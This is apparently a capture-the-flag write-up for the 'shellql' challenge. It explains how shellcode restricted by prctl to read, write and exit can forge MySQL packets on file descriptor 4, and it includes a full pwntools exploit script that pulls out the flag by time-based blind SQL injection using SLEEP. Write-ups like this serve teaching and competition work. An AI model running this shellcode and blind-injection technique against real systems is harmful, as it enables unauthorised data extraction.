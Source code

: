 
### shellql

* We can upload our shellcode and it will be executed
* They set prctl(22, 1LL); so we can only trigger `read` `write` `exit`
* We can communicate with mysql via fd 4
* According to [this](https://dev.mysql.com/doc/internals/en/com-query.html), we can forge a correct mysql packet
* However, we cannot read from mysql
* Time to use time-based attack
`SELECT 1 from flag where (select substring(flag,1,4) from flag) = "OOO{" and SLEEP(10);`

* The exploit script:
```python
# coding: utf-8
from pwn import *
import requests
import string
import hashlib
context.arch='amd64'
def mdd5(ss):
    print ss
    a=hashlib.md5()
    a.update(ss)
    return a.hexdigest()
def run(code, timeout=1):
    s = asm(code)
    assert( '\0' not in s and len(s) < 1000)
    try:
        req = requests.post('http://b9d6d408.quals2018.oooverflow.io/cgi-bin/index.php', data={
            'shell': s
        }, timeout=timeout)
    except requests.exceptions.ReadTimeout:
        print ('Timeout')
        return 1
    else:
        return 0

def qqq(payload):
    lenn=p32(len(payload)+1)[0]
    pp=lenn+'\x00\x00\x00\x03'+payload
    a=run(shellcraft.write(4, pp, len(pp)) + 'xor rax, rax;' + shellcraft.read(4, 'esp', 4) + 'inc rax; cmp rax, 1; jge .+0; ret', timeout=4)
    return a

flag=""
for i in range(70):
  for j in "y SQL"+string.printable:
    if qqq('SELECT 1 from flag where (select substring(flag,1,'+str(len(flag)+1)+') from flag) = "'+flag+j+'" and SLEEP(10);') == 1:
      flag+=j
      print flag
      break

flag2="OOO{"
for i in range(4,70):
  if qqq('SELECT 1 from flag where (select md5(substring(flag,'+str(i)+',1)) from flag) = "'+mdd5(flag[i].upper())+'" and SLEEP(10);')  == 1:
    flag2+=flag[i].upper()
  else:
    flag2+=flag[i].lower()
  print flag2


```